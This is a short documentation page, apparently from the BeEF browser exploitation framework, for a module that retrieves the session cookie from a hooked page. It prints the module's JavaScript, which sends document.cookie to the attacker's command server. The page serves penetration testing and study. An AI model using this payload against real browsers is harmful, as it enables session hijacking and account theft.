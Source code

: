 ##Summary
* **Objective**: This module will retrieve the session cookie from the current page.
* **Date**: ???
* **Authors**: bcoles
* **Browsers**: All
* [[Code|https://github.com/beefproject/beef/tree/master/modules/browser/hooked_domain/get_cookie]]

##Internal Working

This module just gather the cookies for this page using the document.cookie function :

```javascript
beef.execute(function() {
    beef.net.send("<%= @command_url %>", <%= @command_id %>, 'cookie='+document.cookie);
});
```

##Feedback